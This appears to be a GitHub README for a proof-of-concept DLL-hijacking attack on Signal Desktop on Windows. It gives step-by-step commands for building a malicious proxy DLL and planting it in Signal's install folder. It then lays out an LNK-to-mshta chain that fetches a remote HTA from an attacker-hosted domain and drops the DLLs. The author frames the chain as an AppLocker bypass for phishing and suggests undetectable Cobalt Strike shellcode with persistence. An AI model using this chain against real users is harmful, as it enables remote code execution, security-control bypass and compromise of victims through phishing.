 ## EDIT:
2024/05/08 --> It's been brought to my attention that "cryptbase.dll" no longer works, so in short, Signal said this wasn't a vulnerability yet patched something that wasn't a vulnerability. I've updated this repo to use dbghelp.dll instead. Github's find and replace function is very useful. I've also added the gen_def.py script for your ease of use, huge shouts to Tothi for that.

# Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application. 

# Steps to Replicate
1. First, create a malicious DLL. Signal references many non-existent DLLs, but several of the DLLs are native to Windows. For this example, I used `dbghelp.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify their steps for you, by also including the definition generator in this repo, meaning you don't have to clone that repo if you don't want to:
   * Clone the repo.
   * Modify the `dbghelp.c` file in this repo as you see fit - note that this is nothing more than the payload.
   * Copy `C:\Windows\System32\dbghelp.dll` into the `dll-hijack-by-proxying` directory as `dbghelp_original.dll`.
   * Create the exports using the `gen_def.py` script

    ```
    python3 gen_def.py dbghelp_orig.dll > dbghelp.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    x86_64-w64-mingw32-gcc -shared -o dbghelp.dll dbghelp.c dbghelp.def -s
    ```

2. Now you've got your malicious DLL. Copy `dbghelp.dll` and `dbghelp_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/1.png?raw=true)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. You might be wondering what the purpose of building this type of chain serves. Simple: you can chain this as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a safe messenger. In addition, an LNK pretext will allow you to get the user to download the DLLs into the appropriate folder.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/2.png?raw=true)

2. Host your `dbghelp.dll` and `dbghelp_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host `poc.hta` on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA, mostly for the nonsense of the chain, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a live scenario, I'd swap the HTA payload out with a FUD DLL payload, built with compiled Cobalt Strike or Brute Rat shellcode with persistence, depending on the EDR i'm up against.
   
    ![RCE Proof](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/3.png?raw=true)
